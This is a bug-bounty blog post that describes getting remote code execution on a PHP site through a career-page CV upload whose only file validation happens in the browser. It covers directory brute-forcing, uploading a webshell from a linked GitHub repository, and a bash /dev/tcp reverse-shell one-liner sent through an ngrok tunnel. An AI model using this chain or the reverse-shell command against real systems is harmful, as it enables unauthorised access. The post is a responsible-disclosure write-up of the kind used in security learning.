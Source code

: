 ```yaml
---
title: "Remote Code Execution via File Upload"
layout: post
date: 2021-04-07 12:00
categories: blog
---
```


Obtain Remote Code Execution due to Unrestricted File Upload.

## Introduction
Remote Code Execution (RCE) is a critical vulnerability that allows unauthorized individuals to access and modify a computer or server from a remote location. This capability enables attackers to run arbitrary malicious software, also known as malware, on the targeted system.

## Identifying the Target
During the reconnaissance phase, I utilized Google dorks to find a target that had a responsible disclosure program. For the purpose of this article, let's refer to the target website as abc.com. Further investigation revealed that the target company owned seven subdomains, all integrated with the parent domain abc.com and offering various functionalities.

## Exploiting PHP-Based Website
Since the target website was predominantly built using PHP, I focused on finding a vulnerability that would allow me to upload a PHP file and gain a reverse shell. Interestingly, I discovered that the website had a career page where applicants could upload their resumes in PDF format.

### Directory Brute-Forcing
To begin, I conducted a directory brute-forcing operation using the dirsearch tool. This enabled me to identify directories on the website and gain a better understanding of its structure.

![Directory Brute-Forcing](/assets/images/blogs/RCE1/1.webp)

## Discovering Uploaded Files
During my investigation, I came across an "uploads" folder that contained all the documents uploaded by individuals applying for jobs through the career page.

![Index of Uploaded Files](/assets/images/blogs/RCE1/2.webp)

## Exploiting the CV Upload Functionality
I proceeded to the career page URL (https://www.abc.com/careers.php) to examine the CV upload functionality. However, I found that the application only performed file extension validation at the front end, leaving room for potential exploitation.

![Frontend File Extension Validation](/assets/images/blogs/RCE1/3.webp)

## Uploading the PHP Webshell
Taking advantage of the lax file extension validation, I downloaded a PHP webshell and successfully uploaded it.

![PHP Webshell Upload](/assets/images/blogs/RCE1/4.webp)

## Activating the Webshell
To trigger the PHP webshell, I accessed the location where the shell was uploaded.

![Webshell Activation](/assets/images/blogs/RCE1/6.webp)

## Expanding Control with Reverse Shell
At this point, the webshell was functioning correctly. To establish a reverse shell, I either uploaded a reverse shell or used the following command in the web shell console to access the system via port forwarding using ngrok services.

## PHP Webshell Repository
For reference, you can find the PHP webshell I used in this demonstration on my GitHub repository: [GitHub Repo](https://github.com/thevillagehacker/Bug-Hunting/blob/main/Rev-shell/php_web_shell.php)

## Obtaining a Reverse Shell
To acquire a reverse shell, the following steps were performed:

1. Enabled port forwarding.
2. Listened to the forwarded port using Netcat.

![Port Forwarding Setup with ngrok](/assets/images/blogs/RCE1/7.webp)

With the completion of port forwarding setup, I executed the following command in the webshell input field:

`bash -i >& /dev/tcp/0.tcp.ngrok.io/1000 0>&1`

![Executing Reverse Connection via Bash](/assets/images/blogs/RCE1/8.webp)

As a result, a successful reverse shell connection was established.

![Successful Reverse Shell](/assets/images/blogs/RCE1/9.webp)

## Conclusion
In this article, I demonstrated how an unrestricted file upload vulnerability on a PHP-based website could lead to Remote Code Execution (RCE). By exploiting the website's lax file extension validation, I successfully uploaded a PHP webshell and obtained a reverse shell, ultimately gaining unauthorized access to the system. Thank you for reading.

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).